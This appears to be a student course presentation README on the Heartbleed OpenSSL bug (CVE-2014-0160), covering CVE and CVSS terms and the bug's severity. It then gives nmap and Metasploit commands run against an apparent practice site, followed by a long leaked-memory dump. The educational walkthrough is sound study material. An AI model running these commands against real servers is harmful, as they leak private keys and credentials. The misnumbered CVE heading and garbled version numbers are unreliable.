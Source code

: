 # ECE9069_Presentation2-CVE-2014-0160 Heartbleed
![image](https://user-images.githubusercontent.com/46683010/158703429-872f90cb-d21a-4a2f-bb00-2f4926c1136c.png)

## Terms Used in the Report

####   CVE
CVE stands for common vulnerabilities and exposures. 
It is a publicly disclosed database which contains information security issues. CVE was launched by MITRE Corporation firstly in 1999. It is now managed and maintained by the National Cybersecurity FFRDC (Federally Funded Research and Development Center). Additionally, the sponsor of CVE is US Federal Government, with both the US Department of Homeland Security (DHS) and the Cybersecurity and Infrastructure Security Agency (CISA). [^1]
CVE is like a free dictionary for individuals and organizations to improve their information level by identifying, defining, and cataloging publicly disclosed cybersecurity vulnerabilities. [^2]

####   Vulnerability  
A vulnerability, a kind of flaw in software code, could used by hackers to gain direct access to a system or network. Normally, hackers could act as a super-power administrator by taking advantage of vulnerabilities in a system. Plus, both access and actions are mostly unauthorized. [^3]

####   OpenSSL 
OpenSSL software is a robust, commercial-grade, full-featured toolkit for general-purpose cryptography and secure communication developed by OpenSSL Project. [^4]

####   CVSS 
CVSS stands for Common Vulnerability Scoring System. This system provides a numerical (0-10) representation of the severity of an information security vulnerability. The more serious the vulnerability is, the higher score. 
  | CVSS Score | Qualitative Rating |
  | ------ | ------ |
  | 0.0 | None |
  | 0.1 – 3.9 | Low |
  | 4.0 – 6.9 | Medium |
  | 7.0 – 8.9 | High |
  | 9.0 – 10.0 | Critical |

![image](https://user-images.githubusercontent.com/46683010/158703747-406cd690-95c8-4a8d-9a37-2e4d6f86e821.png) [^5]
![image](https://user-images.githubusercontent.com/46683010/158703788-e51841d7-2144-40a1-b9a4-5de4f984653c.png) [^6]

## CVE-2014-0610

####   Description
Every specific vulnerability in CVE corresponds to a serial of number. CVE-2014-0160 refers to Heartbleed bug. 
_“The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs)”_ [^7]
####   CVSS Scores & Vulnerability Types [^8]
  | ------ | ------ |
  | ------ | ------ |
  | CVSS Score | 5.0|
  | Confidentiality Impact | Partial (There is considerable informational disclosure.) |
  | Integrity Impact | None  |
  | Availability Impact | None  |
  | Access Complexity | Low (Little knowledge or skill is required to exploit. ) |
  | Authentication | Not required  |
  | Gained Access | None |
  | Vulnerability Type(s) | OverflowObtain Information |
  | CWE ID | 119 |
  
  
####   What this vulnerability could affect?
The hackers could take advantage of Heartbleed bug to gain the memory of the system when the system is using OpenSSL software in a version that the bug is not fixed. The secret keys during the traffic would be impacted directly. The whole communication would be eavesdropped. In practice, the Synopsys, Inc used this vulnerability to attack itself from outside. They finally stole from themselves the X.509 certificates secret keys, usernames, and passwords. From version 1.01 to 1.01f of OpenSSL did exist this vulnerability.
OpenSSL fixed this bug in version 1.01g on 7th of April 2014.


## Exploit
In this sample example, www.scrooge-and-marley.com will be the targeted server that we do the Heartbleed attack.

#### Tool used in this exploit


##### nmap
_“Nmap ("Network Mapper") is a free and open source utility for network discovery and security auditing.”_ [^9]


##### Metasploit Framework (MSF) /msfconsole
_“The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code.”_ [^10]

The msfconsole is a command line tool of the Metasploit Framework (MSF). (The following screenshot is the interface) The console provides users all the options available in the MSF. 

![image](https://user-images.githubusercontent.com/46683010/158705066-b99c2103-f26b-4f8f-8391-d0862498e7f0.png)

##### Exploit Process
  1. Test the web site from the vulnerability
  ```sh
  nmap -p 443 --script=ssl-heartbleed www.scrooge-and-marley.com
  ```
  2. Use Metasploit to exploit
  ```sh
  use auxiliary/scanner/ssl/openssl_heartbleed
  ```
  ```sh
  set RHOSTS www.scrooge-and-marley.com
  ```
  ```sh
  set RPORT 443
  ```
  ```sh
  set VERBOSE true
  ```
  ```sh
  exploit
  ```  
  The attack result is displayed below
  ```sh
  [*] 23.239.15.124:443     - Printable info leaked:
......b1`.)V.......P.l........rz..Ma/...f.....".!.9.8.........5.............................3.2.....E.D...../...A.......................................20for%20in%20the%20very%20air%20through%20which%20this%20Spirit%20moved%20it%20seemed%20to%20scatter%20gloom%20and%20mystery.%0A%0AIt%20was%20shrouded%20in%20a%20deep%20black%20garment%2C%20which%20concealed%20its%20head%2C%20its%20face%2C%20its%20form%2C%20and%20left%20nothing%20of%20it%20visible%20save%20one%20outstretched%20hand.%20But%20for%20this%20it%20would%20have%20been%20difficult%20to%20detach%20its%20figure%20from%20the%20night%2C%20and%20separate%20it%20from%20the%20darkness%20by%20which%20it%20was%20surrounded.%20&Website%20Secret%20%231=Hacking%20can%20be%20noble%2e:Y.p..sY...S.:..pm............................................................................................................................................................................................................................................wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRy......TP..o...2B..................................................................................................................................... repeated 14918 times .....................................................................................................................................@..................................................................................................................................... repeated 16122 times .....................................................................................................................................@.................................................................................................................................................................................................................................................................................................................................a@.....................}.@....6...J......9._R...t....Q....c.r......~..Z.y.B.*).2JFzc^..Y.7{...3..F..;r....x.[....xt.}.......3...b....t}.....h..9>.$!.........;.yj!.3. .....K...k8.[m7:io.R....o......@;.6....[.1#.....L.Is..<..;..7..P..L......p*.rB.p.1.0..f...L..d......:p...i.v.O..."C.....nW....C......BJ.K!.".y{..;..u...6.,L..._,....Q.8Y...^~w..Jj...s..c+.4...g2...R..!'.).pkU&v..S..O..Q....^..v.>E.h:.'.K_......0.j..0....^..v=)5.....)......0...U....0....0...*.H........................O.....].9Td..........6HY9c.gzC..)....-.T.R.>...X.p.04...g.UK.].hi..L.[..v.iO..`G..iuT.KTfn..+.....Q./:.T.......ZSZ...,..8O..k...)A..1C<.....-&..4P.a.7.TE...,5.x...L.;...3y}4...72*.0.=......Yd..-wx...ile....C`mZ..7P$.....QD....=.+......2"..(.....R,.W7.]X..f...<...a.z0...7K..._..:...K..\.....u.^._....3Y.N.`yLN..7=..11..[..j......@.el..k..J.D|..Kg5w....eX4UL.-.._.]..z......i*=............U....q........=#..}..3.[t=...Z....:.5.y..E&..C...r....3.4Y..a.1....|I."..J.u:?..KNXX.b..^........!.o...........D,.....;..7........t..;9.(.....z.Y...>.(..c.......3/.p...Op.....v.8.|..a$.......]E\ ..'i..5...#.h.....m..5...3nL./j B....Vx_*../...._..6+<.V.k.V.K..:O.r../."...Z*..i6Y\c..^~.4.%...C.....L}..bs...X.....?..D.iI.2.H.H.f...53D...J..BY.x...$...0J.oE.5.....6.%F.q.I..~.k........6.x....;.9TI.=<~<....VB...........`..A....]d:.../......$..Y|....~..}..u5sN.`.*G.WP.q.L...u...t....6.'..N..:.=H....IRFO%....f`|.Q7.....~.v.s....g.......&.........c..Ih.......T..._N.V......y>S.?....,2.....~.P..........Dy.\.o..ha.]?r.fc..N;.....,Ut.p.b.5.......#.n....8...#....-.+f'zK=K9..R..<.y=2...+E.SF.-u......<.......p..H.%..\*.8.F].eQ..6..........2j.G...S...t.]......m......G^3k]7.:."..!Z.q$Wj.-....mUq..R.J.*m.}08+U.0B....1..p.4.E.B.R.=.I....~..?...p.-..A.`b.p.[-.+.92....)..3.Y..;}y..X&i.%.S.....q..[..X.....%'.........s....zQNi..,.!.>.....X2s.Z....5T....B...nJ...kl.G..o.O...u.8..1l_..i....xy$..#J.k...[.$b..b...'c..]l...=......a.y)p....q..R......U .j.5..^.t.;.=}..e.O.6|/...xZ...+......\.........f.u......W....H...+8..|h)...... .-..4Jl...i....eq..}.0....F.2..Lb\F`...%....q.FQD......*.@..E'..Pt....(.9v.......Q~.t.....2c.....}J.2i.^......,..w.F.%.j...J...M..%fY..%...U..W~].$.s.|...\>..?.....n_.D..w.nKLH........l.^{.m3.n5!c.......N....!..u.y...L....5..A6.......p.$.......Q...a...NV,..,.....(.......G....}.) &.0....|hN........%......................".P%><a..G.>.E....`....!.l.e......``... .ed._.....5....1.7JD[.sc....~.$.w..P?..7....04..swq.Dk.....c...5.tf..7.....8......~.4....nM....MM=.._.n.v.4.'.P}....?.uy..Q....=..LQ.....4..w.[..m..=\.r.....H.../.Jm.r....9.:.o.PCV...j.M?.ah....z.....>..^.!..e.....qN..)P.Z...I........>.2.9.U..e..`..2...3.oy.^......f......../...........0e..5...<t...V...&L.?%Q..l.....".;{q.c.e....?..P.:.akD...A..6>|k..."F....I.;8......:.e....:x.l...r .|+....M.....Un..f.FS.*F..wo_w.1p.....n.....AQ....1...]..].X.;..$..C..D..t.....%.^....y....(b^....oR.%_....]B.N..:.......)..=..8#.._...3...R&.Cl...j.J.s.Q.}..j.Nb..Z....#.......(9?/G.0yb#...JB<>..I).S..P.U..\g.<J..7..\g.?d...O.q4.PQI..'./.`.&QTB.+.)kI..?a.*8.....i....cF......&L..(.h..AB.2D....C!5 .....lk....%.....!`7.&.....w;.y..J.TdXO.l.0;.....$.8H...6............U/..D..<E$Q......(Pm6^......d&pj.t.......Z..).........C..`....]%..2.>...[IA...0..ZcJfr..IC|..<Q.x..I../..8e>..bP..e8ic...N......\SY1..0...j!wwC7H../c...d..*.C@f.jf....r.f^m.+..2..dOU9W..B...........X.D..D..4...+...R..U.^v....u.6..MJ..G...K.A.8VJ}AvS......0....).......]..*.Q.....@.$.NJ0.v..K.......\.a..A.@..W..Q..PE.N=......F..4....Y.CQR..2u.4U.z@.....+.^(........@...@P@.!i..w..I..2yy....[...m.L{...<..9. ...*2v.X=.h^~.....^.e.P.......c.^....P...6..F.N..@..&..4..z..$..S.O..z...b.0K....,..:.!=..in..*?..o~....5.5.D..G.I...v/.#4......v7..m..[..,!...*......<.p......?..up..O|..5R..I...(W..-..3...Ox`.>.....FY..2.....x.....v6.c9..pG0..\..ZP.....^^....l=>..*..j.?S.\7X...6....r.q...X.,A.E.1Y_)..d..z...%*Q.......{....Z..N.q.m...L....r...j}..6..M.S.c..?G......k..t..}.6.e.t....:.s.%.R...1.!D.qd3D,..C........`./b.....(..{..J.!....n5...t.K..!3C..\..*...k.G%5d&#....c.9.c....k..V.2%.`]X6.dc..>..(...."..25;.@....t~%l..o.B.6..T.jN..l......;........'=..x..k.f.A.......$..e..\..T.R.:..(....MW~...]Jn.Sy...*ycy.U.CrI.^l<.....R..|..y.........N....._m.. BdB..V..]!8Z.e...."6.H....j.h....|...xPt......."Fc.e.#{..FM...D...-%..5......O|Z$...O..s`.M.t....s...a(....iL..z.....N.\.ok....a.......x,.'.v..h.......w.?Jk..<..,K.BB......Dj.'<+s5....D....C....{..B.K...S....!4....=9.h..+..7@\ZG.y...k...._...U...$m...$P~.O.X[.-.E.b..(|..dGP+......~>...B...6.+. ...D...e.3................S..FT..+.$6...e.....2...xj....B.T....e.].mN..B.V..".m=.;...PQMw$#L..W!Q..m..;..0.....<...........!.....F....N..N...0{..."... n.j...K...n.}u2. ;'!IY'....'.6_..C[.vy.....!L.&r..x..D~.............>G......|..g$..Iz}...j......,..$e`...tA3.Z....7.B]\q......WE...p).wt4V_..|....B..WkW.T..C..C.C|.F...$p..t.*|)^.....k._..._...!.HE..r.|.r)....S.....}.*.`.;.C..v.TsV..3..E.^aJ..eZ.....ADv.+..n1..URq.........*...Y..F.jP.K...s...s.ZA.;t/.mO..3..g..<k..5.....*[.....5>E.'&......_..zf.LE;.<d.F1.}....W....Xh....zcl[.|K...:G*.:.>,.w.Tp9.76...F.pT.z......U...Kd.^.'.s]....|b.JI.J..]h...V...x?ez....0I..3. .OS'p'..*.,..g'....0Q..'P%iw.. ....&$?.'.L.'.A..KJL...D@....G...m.....\J...k..BQ..N.......Md...+.z....:..^E..P..L.e.j#./..qBe..]-...V2s"..9.B..g...u....j%.0..Q..i]z..(...(........+..R...b.8..s..UE.0.'n*'..P|..[.Q<......X.6.^L.......7.l..P(8.......!|.;.._u.....y.."..5.&..t....J.Y.....h....1....=R......(aK..c2#.G/......k.l...&..8..c.r....74..."..]....iA(y.M!........dn.f...N..D..'hiY.....r.Q.F...'.:....C..4....;4....D.....E..m.]XoEQ2...WL]...DL..#.....ths..ZG.!..F.G..a.....3.<.=J}.........\.s.....4.....d.T..-*...........L.w..rl.r2...L..j8..rn.7.9..'j....\rQ....m+.v6s.>.Wu.%:3..m..N.].B.-. ...h.Z...q#VE.C.$C...fo..p..K........X.b......x..2.Y3s...6.......... .9.,...p..u.......#.g..%.....%.\..*....T........N.....H..D..dsz9.W|Iw..F....,_..q..b8- .oY%.......'....H......,.?...5....Q...(.W..W....[9\.D..Qq.4y.....Q`...K...-..N.To..E...0&.\.[[.g...B...yB...7IA.l....(..O.......R!.N.W..Dg.W.j.T...w..[...m......a.^,..4..f.b.=::......6:K..H.q.J.../....w5../m..Z..)...r-f...iQ ...g*.....2..*v$4..<.3..(0.+.a<l.a.<..u..#>L.7...`*.&.$..c..2...^.K.M1|...2W@.3......u>..<.2.}(9.(..u...}.).B..g.{r...R.r.....d..y:u`...........p.....|..<.{W...Fo.....UWy..Q....\.....A..g`..[.5%./....!\.....-<.:I..~YnF..*..s.-..'&.f..($.8l....l>.$h.v%'q.w..J...C.Yb......S......5...>._.!.@[`.b%....,.c....MN..........Ib...#.=..4.......e...T.!....Q...F.E./......E.^'\.....{....lV...t_[.E/.u.L.Q:.uE..}...._..#..M.n.B.....e.D.N#..WX.s.63.s...4.Q.s(..en...-....B.9.;T.a.g.c.);$.p.....@G:...L..&.$.d...jg.T.^Cpo.(.xE....aui(.........lo..M...b........c)..j...ZO.@....t..[.).....l...PH/....p...O5.M..4TXL.y..5.q....v.....+.]...5i.0T.{..<.kAR....s.}.K..mw.v.>..a..|.0m...B..^ />...D.]...X]S.zP-.....@......A..b7E+r9T../... 5.b...;mtI...Bb.......2..4....vY..o..9@,.....<..>...Nmb.4..&Gj(............g".......uo...z..}p...."..%..9...$.i.,.>9....dF:....vb,...de).p.<.3.s.}...$....^@..B...r..3.2.N..z..#.9.9{Q..W.....B...,.g....Z...DfS]/..............m...t....Q..$]c........sX3P.........[?.S.4c....Jt..d05 .o..J4 .....k......>.....>^.<'.k..)....}.'..I5......j.0O.,.H......d..F..|.-.....RsU#.].J...-....?.@.^$.*.F)......d..........9.9...Vr.nW.....;.d......oe.m..8...t{.'k..z.:1d....n...a...zx...<....[R|.....z..Yh.wVI....,.M.{8=........@.^E....2D5.C......M.ay..T....8.B?......R&u}....te...%.......I3....)...l ..E.*>M......6/,..~..w..}.q....`.2...g........^....g ..@^.8..9}E....L.......i..3..|WsD.t....)..#.m.Bi......dN?....\........._..Q.C......A....i.c..c.R]...I....6......5.S......Z...."..v...u....2..;<+.4..-.}$R.j...L...u..ggb%Z.V...).b...ng..|d..8C.VaVX2.....C1.....W.}0.D.....[%%...l..K.#`r.m.;N..j#.##...`u4...g.....`._<vno..VPE...H..~.RV....Y. p..o.&2..*. ..0.KYk.2.......0..Y......aF ....%e....*+.G.....b:'..%.~...I.l.gr..F..:E.o...]..EN.....h.9.-v.......xx>..g.6....%.@.:..F...89Zk1(.6]"s.3....0YS..8...u...-.X....;R.=..[.C}.@.>7.~.Y...E<......SF{D.......|.5._.5.{A.@~..../j.G.....F..\.!A....y..K... .H.9.0.Z...gq.E.Haj..T.r.;.ir.[..T.....X~..#...6B.....Q-.x.....lf..5..B...V~.>4.w..KJ.....v'%.......93......j.H.|.r.;..O.P..'z.v~...(6.......l.*H...e...,...a.....q.."..Z.L..... g..VK=..j...w..ji.........s4...F[.e..1$..).)L.T[..=...`.....I....>...-..up.Hd.~%........r...zR.......^.n%.S?.u..XK...<.R.R...,r.~.b....$P.zo...kE.K>.]e./..b..8!\Z8+t]...F.c..l.}..........^E.:.&+...O..Slz.G^.. ...t.I^..sCR...(.m..%d.[.!)9Kj.$....e@O.....@e.?9..<.....a.e.J..Lyp.d.2..*.:..8......g...|Ui:m.x.].0P5..."&_....w%^...ed............._}..e.0l]..jv..<Rl...a.K.`Sx,..a...9j*.4.z..m>....!H......m(.....!)..V.T.yc.d.....a..@'A.Oy....S).O.=.v.f....J......_.6.w#..l.".P..=(.!.w... .V.-..g.....R.....l..^....QU.......=r.MjWh...;7..\.Bsy.(..^N..............*..O....qHK...5r ...u...V...8@.d.9=.Ra...[.RX.f..'.......`d...R...%:g$..a..........F.ym....y.$.crE....r<9EA.)......+..o3....H..z..(...a.RL..A.q........7ab...p...[.x.\]s..W........n...c..A...pT.v.I.(.9.gw....Fv.{..J7_../......(....../.$MA.u/.Q.M.....M".f..y$....'R .1.["......l....j....p.......v.r.g.A..H+j....Y......H...p..)*..;..T..*4....uL.....^hEX9.n...y}.li.n....(.O....4.O.m..Bx.N.}.........".#.9....0{..........|.M.8v8M%.vd..1\.0.-.......o..E..X..[..~..s.n......".....0....NAz.J.\.*...jG_.......G.....b..^...PI...r...........~.SF....+..A..c..88.K..Z.a,;25..m.(ieiTq...a....=.....Y......Q...Ck6...*..K..E...I~-@...$..|.2.l6..........QW...............t..].7....Z.A..Lz.S.T..{>.....'...^.d.Pu..,..E[.L..U.!.Y.=..L....|...;.1...$....j.7....8./.$.P....$...!.l...\+....}......O..qb.)M.S..6.t..I.U.+^.b.....l..z6.....>El....k......'@.......k$sA.&.x.Y...;.(.........@S...j..B...._. a..Q..T.<..PR.X\B>&.n.Q...E..\x..x.<.~.Hn........v....$./........2t.......em..\o5...q.3.'..1.h. |..3..<..S..............U..Mtm....r_........J.$...*............%...*./.j. ...Q.....Y...|...U.%/. ....xv._.d...i'......=.....@.,7..6.#8e.k....n-..@K@..in......P.+~$.......p.Wxa.a.........m..p.l3$.-.~.......2+.<.*...B.L.J|.~.ny.+K%K...-.Z.$.....}.Y.nI.....JJ..F!.....o.fX.....`.....2...M....g...qV.J........A..Ki3Sf:9..a);sh.B.8o..E.......7.0.3U...(.c\.K.Bd0....A..V./.xs....@(>...........K....j{i.."...M:.Mu...6.hm...ft.....n(..|)h...Xa..KH*W.Xpf)....8.....-]..<..h..?.|..[...h..}Y..".O...K..........a....jS.Fi.._.I...h-....QW.;E.....}.......Bg.G..(.^"...xp."..:_B8.J5.........w.....y."p..;$..d/...e..e.t.g... .Z@.]7/g........V.^..*.S..S..k......(uuh.M4X...w....=.%|..A.g..j..>SxW.A..M....5....'H.g...q..a..P..o{.H....h....{.$......X.."86..`.$...]...fC.......7y........^d.;zxO.j4.&7.2.....]..*/............m;$..l..$.Qe...V.................)...|.....\l.J....'LG...v.......v.O...0..9.B......k.oj%.....|Y...g..1..Pd.QH..<...|Z.....h..[.....%..../S#..y.X*G...V..u.%...(..t..L!...eN.....>......gWW\..m.KBK..k.^.....hU.n@..r.<p>XD.m.....m..;....hK_.......8.A^(...zTq5.$..wm5.j.m{.i.8..Q3Y.....1k#c........z.B.....=.`.a...%..0....R..B.s!.....r...3.(U.\...0.. ..CB.f...{nm>.-..@1.D.V..mq.C...w.Z...XU;#..ZXHt.;xW...,n......... .5..:.e.a.P..o..I...;<...Dy...7.0!?(.........y1...f.#<..y....$V_.l.Z..._.......&........`.v^1......$..v......V...@.V#...`....~BG.F.t......J!g...6....~.U......i....c....;.!.......F...m.....G:?..f}...7.0..4..Oj...n._J..;qb.).X%..h..............Z...+.[..P..z...A......q.....F.I;%...X.<I.W...E.72.5...tV.:F.f..........Lz..kt........l..S.i>eG.S.."Ai~...(x..;.c....*.ycUoS.J..3^g%...g}.kV,....=.>...,n*S6..F...'...........E.......-..4.ZA."A....e%(.5..&...C.22L...s.W3.J.3V{..'...,.@.H.Wl2E........A...e..=..p1..J.c..[.S..L3"..I<W...Q.e..-!....r..d.....w<...Kbs.B..Iiy>Y..5..v.........mvx*h...:..(.y.E..h....\....e....V....K...*58..29"..\....@.....;..W....."......Y.yT..\Iu.13.Y..O7..4....(.0..\.Aq.C..+...p.A..t..~..f....c{.2.KoBm7....9....M.+3U.P..^g::...D@.?.....{.m..JzM..#.Xe.._)..6:...+J.....$..&...t......l}g.=..Z[.rQ-.Zd7..y......\....Q.P.....`E....wG.....n..!4M.9......!..V.R')Is.Bv@'....E<C)..(}j....N..S#FA..p.V._..>p..x...3W.[p....'1...i...N..r....T...K.a.K....ZI....2S....%....q..kK...b...Z.#sg...Aw=.i.S...S;.8.....O...$.*?h..jm..%....1./(.....~..re..W.....y..?#...:......7xX.Cr._..}.[...@.....0!..u.j..qZZ...A.FZ..7Itl...........%_..J....L;lmm8...N...]....m.][....Cq~.8.LG...l..g.x.._.....^...a.<-.]k..?..[../...d{..A!.g}!....]s.oX...e"...b....`..\.......>|G...._.`....X....@.EU%...PW.......62f.....6.Fd.~UJ..../...$u.*D.g.C.S..#.`yN.w.bg..L../..x..-7./.%.71i.>B../..c.8;[..o.2...._-..:.oI8...j........^.@..m....ni.(R';..".".kNJ.......c..I..0)G.p...&;.r......r.q1%.....Q0.s.2...K.~.....#u....!-.....i.#.....t.Ff.....H.4.$E...C.x...Q..35.....4......C....!...-.s.s...{......V.8..n.H'}.!..0.C+G.,.?..@.m5...<.....c...Fvk....C.c........Rg...z.0~9.4p".........j-b.................MW.zbQ.T.k..)........9,..Z2...n...{.f...eT...a.5Rm~Z..[F...sq...7-.{Y){..-D?v..d.9e.qU&_E.....CW...~.H.r...*..o.....6.@.z..K..U.....wE.'.o..../F{+p.rJ..{.........h..#....D....8.6g5{...E...P........^u.~..+..+:.Q.~.*...e`....Ga...\S..5.c..[...s...U`.P.{...FV....h....r1......Z.g......a...`'..7..A5...q...]oLjk...$....d..).JpA.E& .....*.d[...:\.tfF....f6.0xB..;..<9p{..F..xH\.i..1-.&Nni.w_ebe...Jr.@N....$?...f.....Zg....c6dA..WJbK...kM...>..b...H..2...]..b......w...l...ea~.x..5.z'z..1.^.....=....g:!...(..z.U.>.(lB.0..l...o.h....,....!..@_..=. .];..M4..a.+.>.%.Zx...i.kEy.5.;.jO..*$...i..hO.W.....).QU].~Y^.p....`.Q...V.....3...4..........c(7..W........Z.<.s.. ...s..<...G0....4........2.HN.p.....G|.NK.._...!Q!...U.Ie.8|..A.y.<.%..\,@.b..2.{.......c.......t6....F.FS....^I.-6D..{f....`..D......W.r..U..+...d2.v.).y..4...0..aY.w_..g...Q..|E...v.,.~.... .~w.....`[...z...<..<.....f....-...'.....VJ...(m..]....;N..yr..%v...Yk`....u..F4...~(.,Y.t.7.T..Z..bHT..Q.....V3-<Ib....B....<r%.'.....a.....b../.xS.v....K..5....^?..)..bR%..j.X..H..t@.i...0./GN.g....Rm.1....h.e.$.Tn/w]UW..>..n.......jk c....X.....OR.fTZ...fl.S:...~.................v..V...P2..7....[Za..QL.B.=.(.{..O,.Aj....,...R~..|.(.#...Z..E......Z.`.F....-.Z..Z..}D..l.X@.."..hy.......|..>")..o#.O.v.>.Q...N.d..NI..?.,.....C.L0....O+.........U..........4..x|.._.^....n,G.B.~.g.....u..c.e...U2.C.<M..0*m.M........V.PU ..Q..9.e'h..@...{.._...^.....`..........W.h..P..X...7.u....;..SYY.'...Bz5..-.m..2T........v...._..2'~... .E...-N....]..............}.....!.#.hBIf....S..S.l4)b.<6z...>,6...G..R..&N..*F..<I.S../."n.>H..Q...rgq.U.g3[......i....%..y.)#.^0.7.u.[.F...9(k$I...y?pvC&...........^v..-f...7.Tp..2..HP....{..{...$.C..63.|mKX.....XC.............5...O2Lt}.V.A..../.....+?.&..C.......&.......wQ.J0..C...].`.....1+.....1y.Ql&2....B.....5.......S.X....k....0@Wu..`.z.Q..{".......h.....=..S].|X.Y..%}.cr..PZ..6K..d..B.e.ev..(...7..l.F.2.\N~.>...Y@W.O..(...z...i@b.....d......)j.....D$.rto.q.....P.y..n..!Y......NN.{.......n.....`...2.....D.....n.......X...#..y`...+...$....}/B....e...pg..J......=........e{....!..._.:...M,......o.......-.....'J..G.S....}}............H./...7..[kQ.......Nm...9..1.v.?.P..DsB.....(.l.c...r...6C.....yL..,.IW5b...lp4....x(..*9..4....la.......\...y....!.....D....Dv..wSg....K..h..}...W.2d.".p/..0....fn.....FM.EM..........n~vl"L...Xv.sOj.|.C.`..DrWs.).7....zIG]..ky... ..I.I......m......h=......Vh.ao.q.....<,....A$......0........&A..j.&..........Y.4 f..F.!.&...........}O...p:.K@T..\.)..a...@...*..o.WF....6H64....Z)j\1}X....N...v...hAJ......W.^......@.7v..+o...K...[....7.c.sd..D~...$...>y............ ....V.....R}"..8.;%.d.ItJ...H..:.....M;.....&......cm.P:9.~.N......-(YN..O.....?rn.....q|7.....:.9.z....K.._.^.)...5........l....qn.)........U..d.@@.X.9\2^...g.E.f.....@#.N..va.....<Cn.k.N...EJ....Y.......(.=V.M#UP+...d.2,..f'7...J....._..Z2....Zc.......c.'..r'.1.X?W".".r...N.. ..zQ...RS....M.)....J.>c....".7.2g..p.........I.T*Is..5.}1..9...........b.K...y..z......{..!C.Z.....L?..9c....-....G2.a../wy..5.X.o........Jzjl.%".|.R..%.....1G..}.:8.8..\c..n8}.;.t....k..u/.&........OY.!x,..nt.....a..x..B^H=>..E.lk*+e.D.R..K...91.......?.4.#..$...A....*.c5-..N.....TN.g...dYr....^.."..H..t.K,b.d?.r......=5..:.P..L]r.v.C....5GY9.(.....W.sB#.d.1u...~a...L.%..|..^a....oU..../.$e...h.B=.......h~....T.Qho(QU.....Q.....b....^(...W....t.n~............Jt.'.......sY".O...5..-|......4E....E#.8.Tx.I0.fBPb".C.C...t|..Q.....L....dk...q..'..y0?..?f..Y0yIu...(v...X...2../MZK.]..lb.^...<.).......e...a.9.y...BR.....c....v.}..r(.......x..j..Z*HO......@.......)Hm.}7....`mC.Y*0.:.Hw,...|.......v,M.^....r`...m}..y>.7....O"*.^9..7y..I.u.d.v ....3-.g{~......o.M..F...U.44Q......b....8.S..$7@.b).7.:n..s.b^VXh.Y........'..;@..`m..u..........p.....x3P..V{j.J....$.icu...s......$u5.mc...w.D............+X8..<^.L..[-...4.x. ...}..y8...>k.v..$..m.-....~..G...R*;}.(.6`..?..rZv..%...0.&_...W+{\..,.kP.......i...i6.4...[............................................................ ......<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><AddPortMapping xmlns="http://purenetworks.com/HNAP1/"><PortMappingDescription>foobar</PortMappingDescription><InternalClient>192.168.0.100</InternalClient><PortMappingProtocol>TCP</PortMappingProtocol><ExternalPort>1234</ExternalPort><InternalPort>1234</InternalPort></AddPortMapping></soap:Body></soap:Envelope>.....detach%20its%20figure%20from%20the%20night%2C%20and%20separate%20it%20from%20the%20darkness%20by%20which%20it%20was%20surrounded.%20&Website%20Secret%20%231=Hacking%20can%20be%20noble%2e..................................................................................................................................... repeated 11324 times .....................................................................................................................................aU.............}.@....6...J......9._R...t....Q....c.r......~..Z.y.B.*).2JFzc^..Y.7{...3..F..;r....x.[....xt.}.......3...b....t}.....h..9>.$!.........;.yj!.3. .....K...k8.[m7:io.R....o......@;.6....[.1#.....L.Is..<..;..7..P..L......p*.rB.p.1.0..f...L..d......:p...i.v.O..."C.....nW....C......BJ.K!.".y{..;..u...6.,L..._,....Q.8Y...^~w..Jj...s..c+.4...g2...R..!'.).pkU&v..S..O..Q....^..v.>E.h:.'.K_......0.j..................................................................................................................................... repeated 2961 times .....................................................................................................................................
[*] www.scrooge-and-marley.com:443 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```    
  
  
  [^12]
  
# References 

[^1]: https://www.balbix.com/insights/what-is-a-cve/ 
[^2]: https://www.cve.org/About/Overview 
[^3]: https://www.csoonline.com/article/3204884/what-is-cve-its-definition-and-purpose.html
[^4]: https://www.openssl.org/ 
[^5]: https://www.balbix.com/insights/understanding-cvss-scores/ 
[^6]: https://www.cvedetails.com/ 
[^7]: https://heartbleed.com/ 
